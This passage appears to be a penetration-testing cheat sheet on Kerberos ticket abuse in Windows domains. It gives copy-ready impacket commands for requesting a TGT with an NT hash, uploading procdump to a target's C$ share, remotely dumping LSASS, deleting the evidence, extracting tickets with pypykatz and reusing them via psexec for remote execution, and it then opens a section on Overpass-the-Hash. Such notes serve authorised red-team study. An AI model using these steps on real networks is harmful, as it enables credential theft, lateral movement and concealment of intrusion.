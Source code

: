 **Requirements**:
- *local admin* user required to extract all TGTs and/or TGSs from the memory of the LSASS process
- without privileged user we can only get TGT and TGS for the current user

**Steps (without privileged user**):
1. get TGT current user
	- `python3 getTGT.py -dc-ip <IP DC> -hashes :<HASH NT> <DOMAIN NAME>/<USERNAME>`
2. `export KRB5CCNAME=</path/to/USERNAME.ccache>`
3. ticket usage (to abuse the ticket in memory communicate with the target via ***hostname***. Use of "hostname" force Kerberos authentication) - example: `python3 psexec.py -dc-ip <IP DC> -target-ip <IP TARGET> -no-pass -k <DOMAIN NAME>/<USERNAME>@<HOSTNAME TARGET>` (caso reale: `psexec.py -dc-ip 192.168.1.105 -target-ip 192.168.1.105 -no-pass -k ignite.local/yashika@WIN-S0V7KMTVLD2.ignite.local`)

**Steps (privileged user**):
1. we connect to the `C$` share of the target machine (`python3 smbclient.py <DOMAIN NAME>/<USERNAME>@<IP TARGET>`, *password via prompt*) and load the executable of [Procdump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump):
	- `use C$`
	- `cd Windows`
	- `cd Temp`
	- `put </path/to/procdump/.exe>`
2. *LSASS dumping remotely*
	- `python3 psexec.py <DOMAIN NAME>/<USERNAME>@<IP TARGET> "C:\\Windows\\Temp\\procdump.exe -accepteula -ma lsass C:\\Windows\\Temp\\lsass.dmp"` (require: *ErrorCode: 0, ReturnCode: 1*)
3. we connect to the target (`python3 smbclient.py <DOMAIN NAME>/<USERNAME>@<IP TARGET>`, *password via prompt*), download the dump and delete the files created:
	- `use C$`
	- `cd Windows`
	- `cd Temp`
	- `get lsass.dmp`
	- `rm procdump.exe`
	- `rm lsass.dmp`
4. create folder that will contain Kerberos tickets
	- `mkdir /tmp/kerb`
5. Kerberos ticket dump via `pypykatz`
	- `pypykatz lsa minidump -k /tmp/kerb /path/to/lsass.dmp`
6. we convert the format of the chosen ticket from *.kirbi* to *.ccache* with `ticket_converter.py` (*impacket*)
	- `python3 ticketConverter.py </path/to/ticket.kirbi> </output/path/to/ticket.ccache>`
7. `export KRB5CCNAME=</path/to/TGT.ccache>`
8. ticket usage (to abuse the ticket in memory communicate with the target via ***hostname***. Use of "hostname" force Kerberos authentication) - example: `python3 psexec.py -debug -no-pass -dc-ip <IP DC> -target-ip <IP TARGET> -k <DOMAIN NAME>/<USERNAME>@<HOSTNAME TARGET>.<DOMAIN NAME>`

## OverpassTheHash/PassTheKey

**Context**: 
1. similar attack to *PtH*, but applied in Kerberos authentication
2. when a user requests a TGT, it sends a timestamp encrypted with a key derived from its password (*AS-REQ*). The algorithm used to derive this key can be DES (disabled in current versions of Windows), RC4, AES128, or AES256, depending on the version of Windows installed and the Kerberos configuration
3. if we have one of these keys, we can request a TGT from the KDC on behalf of a user without knowing their password, hence the name **Pass-the-Key**
4. since the Kerberos RC4 key == user NT hash, when we use NT hash to request a Kerberos ticket the attack takes the name **Overpass-the-Hash**
